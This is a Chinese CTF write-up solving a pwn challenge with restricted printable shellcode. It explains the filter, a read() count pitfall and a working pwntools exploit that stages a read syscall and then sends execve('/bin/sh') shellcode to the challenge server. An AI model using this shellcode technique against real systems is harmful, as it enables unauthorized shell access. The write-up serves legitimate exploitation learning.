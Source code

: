 # abstract shellcode

确实挺抽象

## 文件分析

NX off, PIE on, Canary on, RELRO full  
ghidra分析为64位程序

## 逆向

开始时读入一个ye/no，就可以开始输入shellcode了，一开始以为有16字节的限制，
还把字符范围限制在了`'O'~'_'`之间，但是实际动调时发现还有1个任意字符的机会

要想执行system，这么一些字节肯定不够，那么可以参照newstarctf里的shellcode_revenge，
先执行read，再执行，那么这最后的一个字节可以做什么呢，发现`'\xc3'`可以实现跳转，
这时候才意识过来，之前给的两个字符，是用来放syscall(`'\x0f\x05'`)的，
那么只要构造一个read系统调用，再读入execve的shellcode并执行就可以拿到shell

下文有shellcode的详细解释

## 踩过的坑

read的第三个参数`count`有最大值`SSIZE_MAX(0x7ffff000 on Linux)`，
超过这个值是依赖于实现的，当我随便找了一个超大数字时，我用的Arch Linux可以成功read，
Ubuntu就不行，害得我一开始连远端就寄，还得开虚拟机试试（毕竟是内核存在差别）

## EXPLOIT

```python
from pwn import *
context.arch = 'amd64'

def payload(lo):
    global sh
    if lo:
        sh = process('abstractshellcode')
    else:
        sh = remote('43.249.195.138', 21851)
    if lo & 0b10:
        gdb.attach(sh, gdbscript='b *$rebase(0x14aa)')

    # payload 1, place syscall on stack
    sh.send(b'\x0f\x05')

    # payload 2, control registers and return to syscall
    sh.send(b'P^WXOSZYY[YQYQYS\xc3')

    code = '''
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi, esi
    xor edx, edx
    push 0x3b
    pop rax
    syscall
    '''
    shc = asm(code)

    # payload 3, execute /bin/sh
    sh.sendline(b'0'*(0x52 - 0x20) + shc)

    sh.interactive()
```

以下是对第二条payload的解释

```as
push rax ; P
pop  rsi ; ^ 读取到当前字符串开始处
push rdi ; W
pop  rax ; X 复制0给rax
push r11 ; OS (O: REX:WRXB -> 修饰rbx为r11)
pop  rdx ; Z 复制0x246给count参数
pop  rcx ; Y
pop  rcx ; Y
pop  rbx ; [ 先把syscall字符串所在地址读到rbx中
pop  rcx ; Y padding * 5
push rcx ; Q
pop  rcx ; Y
push rcx ; Q
pop  rcx ; Y
push rbx ; S 还原rbx的地址到rsp上
ret      ; \xc3 ; aka pop rip: 程序跳转到rbx的地址上
```

## 参考文献

[printable shellcode](https://web.archive.org/web/20110716082850/http://skypher.com/wiki/index.php?title=X64_alphanumeric_opcodes)

Done.
